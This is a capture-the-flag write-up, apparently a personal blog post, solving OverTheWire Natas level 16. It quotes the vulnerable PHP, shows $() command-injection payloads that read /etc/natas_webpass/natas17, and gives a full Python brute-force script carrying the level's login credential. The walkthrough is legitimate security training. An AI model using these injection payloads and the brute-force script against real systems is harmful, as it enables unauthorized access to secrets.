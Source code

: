```yaml
---
title: "Overthewire Natas 16 Walkthrough"
layout: post
date: 2018-01-24 22:44
image: /assets/images/markdown.jpg
headerImage: false
tag:
- ctf
- overthewire
- natas
- wargames
star: true
category: blog
author: Hisham Alshaikh
description: This is just a walkthrough for overthewire's natas level 16
---
```


## Challenge

![Markdown Image](/assets/images/natas_16_solution/challenge_page.png)

{% highlight php %}
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
{% endhighlight %}


The goal of this level is that we need to bypass the regex filter in order to be able to read the flag in /etc/natas_webpass/natas17. 

## Solution

Reading the source code of the page we can find out that that there is a regex filterzation, and we have to not to use any of the characters in the preg_match() function, so we go the passthru() function to inject and execute a custom command since we have control over the variable $key.

We can use $() in order to inject our commands to the passthru() function, since none of the characters of $() exists in preg_match() filter.

so the final command after injection will look like the following:
{% highlight shell %}
grep -i $(grep /etc/natas_webpass/natas17) dictionary.txt
{% endhighlight %}

We can mimic the same scienario in our local termianl, so we have a better understanding of the situation and how we are gonna solve this challenge. 

Mimicing the challenge, I am going to make some files

flag.txt content
{% highlight raw %}
dGhpc2lzYXRlc3Rtb3RoZXJmdWNrZXJ5b29tYW1hYWFuCg==
{% endhighlight %}

So if we use the following command
{% highlight shell %}
grep -i $(grep ^d /tmp/flag.txt) /etc/passwd
{% endhighlight %}

As we can see the string in flag.txt starts with a 'd', so if we use '^' in order to know the characters in order in the flag file. Starting out with 'd' since flag starts with 'd', the commands will return no result; however, if we choose a character other than 'd' the terminal will hang with result return. This way we will be able to figure out the flag content for this challenge, so we can go to the next level.

Here is the complete solution code for this level.


{% highlight python %}
#!/usr/bin/python
#h15h4m

# way better than the other libs
import requests
from requests.auth import HTTPBasicAuth


chars_to_check = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
string_to_find = "Output:\n<pre>\n</pre>"

target = "http://natas16.natas.labs.overthewire.org/"
http_login=HTTPBasicAuth('natas16','WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')

password_chars = ''
password = ''

r = requests.get(target , auth=http_login)

if r.status_code != requests.codes.ok:
	print "[-] Unable to access. Check Authentication."
	exit()

print "[!] cool. We are in!"

print "[!] finding password chars...."

#lets find password chars first easier for brute force later
for x in chars_to_check:
	r = requests.get(target + "?needle=$(grep "+ x +" /etc/natas_webpass/natas17)",auth=http_login )	
	if r.content.find(string_to_find) != -1:
		password_chars = password_chars + x
		
print '[+] password chars: '  +   password_chars

print '[!] brut3 f0rc1ng the p455w0rd......'
for x in range(32):
	for xx in password_chars:
		r = requests.get(target + "?needle=$(grep ^"+ password + xx +" /etc/natas_webpass/natas17)",auth=http_login )
		if r.content.find(string_to_find) != -1:
			password += xx
			break
	
print "[+] password: " + password
{% endhighlight %}


Executing the code
![Markdown Image](/assets/images/natas_16_solution/final_result.png)
